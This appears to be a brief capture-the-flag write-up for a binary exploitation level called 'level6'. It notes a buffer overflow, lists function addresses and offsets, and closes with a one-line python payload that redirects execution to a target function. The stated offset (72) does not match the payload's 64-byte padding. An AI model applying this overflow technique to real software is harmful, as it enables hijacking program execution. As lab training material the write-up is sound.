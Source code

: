 Okay this looks like a buffer overflow

I calculated the offset: 72

Here is the address of function m: 0x8048468 --> \x68\x84\x04\x08 (target)
Here is the address of function n: 0x8048454 --> \x54\x84\x04\x08

allocated var == esp+0x1c
allocated pointer == esp+0x18

```bash
(python -c 'print ("a"*64 + "\x54\x84\x04\x08"*12 )';cat) | ./level6
```
